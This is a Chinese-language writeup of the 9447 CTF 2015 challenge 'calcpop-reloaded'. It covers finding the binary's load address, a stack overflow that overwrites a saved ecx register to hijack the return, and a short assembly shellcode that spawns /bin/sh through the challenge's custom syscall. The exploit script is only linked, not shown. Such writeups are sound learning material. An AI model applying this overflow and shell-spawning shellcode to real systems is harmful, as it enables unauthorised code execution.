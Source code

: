 ```yaml
---
title: 'Writeup-9447 CTF: calcpop-reloaded'
date: 2015-12-04
tags: [Hack, CTF, Writeup, Exploitation]
slug: 9477-calcpop-reloaded-writeup
---
```


*从这一题开始，9447 加上了 POW, 其实只要爆破就可以，这里就不放脚本了。（关于 POW, 有个叫 hashcash 的东西，挺有意思的）*

这道题我没有在比赛期间做出来。当时完全没有逆向 load address 未知的二进制的经验，什么都干不了。后来简单看了别人的 writeup，在只知道逆向方法的情况下重新做出了这题。前后大概还是花了七八小时（我好渣...），硬着头皮写篇 writeup 记录一下。

## Load Address
找 load address 的过程大概是先用 radare 打开，然后翻反汇编代码，可以找到`mov eax, 0x1007a7`这类代码，大概可以猜出 load address 在 0x100000.

用 IDA 打开，填好 load offset, 开始调试。可以猜出 main 函数(?)的位置大概在 0x1008bc.

## Overflow
接下来找溢出点。可以看到 0x001008EE 处调用了输入函数，分配栈空间是 0x98, 但是传递了一个大概是 size 的参数，值为 0x100. 存在溢出。

这题和 calcpop 有一点不同的是，calcpop 中输入 exit 会直接退出 main 函数，这题输入 exit 会调用`shutdown()`之类的函数，没细看，效果就是不会再有输出了。这道题退出 main 函数的方法是，正确输入，让计算结果为 201527, 程序会输出彩蛋信息，然后退出 main 函数。

接下来就是怎么溢出了，先看 main 函数入口和出口处的栈变化：
```nasm
; entry:
lea     ecx, [esp-4]
and     esp, 0FFFFFFF0h
push    dword ptr [ecx-4]
push    ebp
mov     ebp, esp
push    edi
push    esi
push    ebx
push    ecx

; exit:
lea     esp, [ebp-10h]
xor     eax, eax
pop     ecx
pop     ebx
pop     esi
pop     edi
pop     ebp
lea     esp, [ecx-4]
retn
```

溢出到保存 ecx 的位置，使 ecx - 4 指向存有 shellcode 地址的栈位置，然后 ret 就能跳转到 shellcode.

## Shellcode
这题怎么写 shellcode 也是一个难点，因为系统是 9447 写的，不能直接用 execv 系统调用。所幸的是本题的系统调用功能都是能从一些字符串上看出来的。比如`read(%d %x %d)`, `write(%d %x %d)`之类。strings 一下可以看到`spawn(%x %x %d)`，我就猜测这个是类似 execv 的系统调用。可是参数不明确，特别是第三个参数。试了几次，发现用`spawn("/bin/sh", "/bin/sh", 1)`这样的参数是可以成功的，第三个参数 1 具体是什么含义，我也没搞明白。

用 pwntool 生成的 shellcode 如下:
```nasm
; push '/bin/sh\x00'
push 0x1010101
xor dword ptr [esp], 0x169722e
push 0x6e69622f
mov edi, esp

push 0x1
push edi
push edi
push 0xdeadbeef  ; junk
mov ebx, 302125832
xor ebx, 0x12121212
call ebx  ; spawn(%x, %x, %d)
```

## exp.py

可以用 redos 中的 level1 本地调试。

{{< gist "cubarco/b4aee1ac22f1b3039d30" >}}
